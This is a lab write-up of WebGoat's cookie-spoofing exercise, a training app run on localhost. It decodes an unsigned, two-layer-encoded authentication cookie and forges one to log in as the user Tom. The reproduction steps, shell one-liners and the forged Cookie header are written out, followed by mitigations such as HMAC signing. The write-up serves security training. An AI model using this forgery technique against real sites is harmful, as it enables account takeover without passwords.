


# WebGoat — Spoof Cookie (Authentication Bypass)

**Author:** Alvin Wainaina
**Lab:** Spoof Cookie — Authentication Bypass (WebGoat)
**Date:** 2025-10-28

---

## Objective

Attempt to bypass the authentication mechanism by spoofing an authentication cookie and log in as another user (Tom).
 The lab goal is to understand how the authentication cookie is generated and to craft a valid cookie for a target user.

## Environment

* WebGoat running on `http://localhost:8080`
* Tools used: Browser DevTools (Application → Cookies), Burp Suite (Proxy & Repeater), `xxd`, `base64`.
* Known credentials (lab-provided):

  * `webgoat` / `webgoat`
  * `admin` / `admin`

---

## Summary of Findings

* The `spoof_auth` cookie is a **two-layer encoding**:

  1. ASCII string → hex string (ASCII bytes represented as hex)
  2. hex string → Base64

* The ASCII string structure is: `sAAKrBgGSP` + `<username_reversed>`

  * Example:

    * `admin` → ASCII: `sAAKrBgGSPnimda`
    * `webgoat` → ASCII: `sAAKrBgGSPtaogbew`

* Because the cookie contains no HMAC/signature and the server decodes the cookie into the structure above and accepts the username portion,
 we can construct arbitrary valid cookies for other usernames by reversing the username and encoding using the same two-layer process.

* Successfully spoofed a cookie for **Tom** and authenticated as Tom by setting the `spoof_auth` cookie to the crafted Base64 value.

---

## Reproduction — step-by-step

### 1) Capture a real cookie (from a known user)

1. Log in normally with `webgoat`/`webgoat`.
2. Inspect cookies in browser DevTools → Application → Cookies for the WebGoat host.
3. Observe `spoof_auth` value. Example observed cookies:

   * For `admin` (cookie value):
     `spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZTY5NmQ2NDYx`
   * For `webgoat` (cookie value):
     `spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA3NDYxNmY2NzYyNjU3Nw==`

### 2) Decode the cookie to reveal the underlying format

* Base64 decode the cookie value, then interpret result as a hex string, and finally convert hex to ASCII.

Commands used (examples):

```bash
# Base64 decode -> hex string, then hex -> ASCII
echo -n 'NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=' | base64 -d | xxd -r -p
# Expected output: sAAKrBgGSPmoT
```

* For `admin` the intermediate decoded bytes (hex) were: `7341414b7242674753506e696d6461`
* For `webgoat` the intermediate hex was: `7341414b72426747535074616f67626577`

Converting hex to ASCII yields the fixed prefix and reversed username.

### 3) Build the spoofed cookie for Tom

* Take the constant prefix: `sAAKrBgGSP`
* Append reversed username: `Tom` -> reversed -> `moT`
* ASCII string to encode: `sAAKrBgGSPmoT`
* Convert ASCII -> hex:

  * `echo -n 'sAAKrBgGSPmoT' | xxd -p` → `7341414b7242674753506d6f54`
* Base64-encode the hex string (final cookie value):

  * `echo -n '7341414b7242674753506d6f54' | base64` → `NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=`

Final cookie to set:

```
spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

### 4) Set the cookie and verify (two quick methods)

**Browser DevTools**

* DevTools → Application → Cookies → Edit `spoof_auth` value, paste the crafted value, reload the protected page.

**Burp Repeater**

* In a captured request or new request to the protected resource, add header:

```
Cookie: JSESSIONID=<value>; spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

* Send request, verify the response indicates you are authenticated as Tom.


## Commands & One-liners (cheat sheet)

* ASCII -> hex:

```bash
echo -n 'sAAKrBgGSPmoT' | xxd -p
# -> 7341414b7242674753506d6f54
```

* Hex -> ASCII:

```bash
echo -n '7341414b7242674753506d6f54' | xxd -r -p
# -> sAAKrBgGSPmoT
```

* Base64 encode the hex string (to produce final cookie value):

```bash
echo -n '7341414b7242674753506d6f54' | base64
# -> NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

* Full pipeline (cookie -> username):

```bash
echo -n 'NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=' | base64 -d | xxd -r -p
# -> sAAKrBgGSPmoT  (reverse `moT` -> Tom)
```

---

## Impact

* Because the cookie is purely encoded (not signed) and the server accepts the decoded username,
 an attacker who can set client-side cookies (e.g., via XSS, local access, or a MitM) can impersonate arbitrary users by constructing and setting a valid `spoof_auth` cookie.

* On production systems this would be a critical vulnerability: it allows account takeover without knowledge of passwords.

---

## Root cause

* The server uses a deterministic, reversible encoding for the authentication token without any secret/signature (HMAC/RSA) or server-side binding, enabling forgery.

---

## Recommendations / Mitigations

1. **Sign or HMAC the cookie**: include an HMAC using a server-side secret, e.g. `HMAC-SHA256(secret, data)`, and verify it server-side before trusting the cookie.
2. **Avoid storing raw user identity in client-side cookies**: store an opaque session identifier and keep the authoritative session state on the server.
3. **Set Secure and HttpOnly flags** on cookies to reduce theft via client-side scripts and ensure HTTPS-only transport.
4. **Include expiration / nonce** and validate timestamps server-side to avoid replay, but also sign the timestamp.
5. **Use proper session management libraries** instead of custom token schemes.
6. **Add server-side checks**: validate that the user exists and optionally bind cookie to other server-side session attributes.

---

## Lessons learned

* Always treat client-side data as untrusted; encoding is not a substitute for authentication or integrity protection.
* When analyzing tokens, decode in layers (Base64 → hex → ASCII → JSON) until the structure is clear.
* Capture a real request first and replay it with controlled modifications to understand server-side checks.

---

## Appendix: full reproduction commands

## Conclusion

The lab demonstrates a clear example of insecure client-side authentication token design. By decoding the `spoof_auth` token we found a constant prefix and reversed username;
 because there is no integrity protection, it's trivially forgeable. Implementing server-side session management and signed tokens prevents this class of bypass.

---


## Screenshots


*DevTools showing the `spoof_auth` cookie for a logged-in user.*


*Burp Repeater showing the `Cookie:` header with the spoofed `spoof_auth` value.*


*WebGoat protected page showing successful authentication as **Tom** after setting the spoofed cookie.*

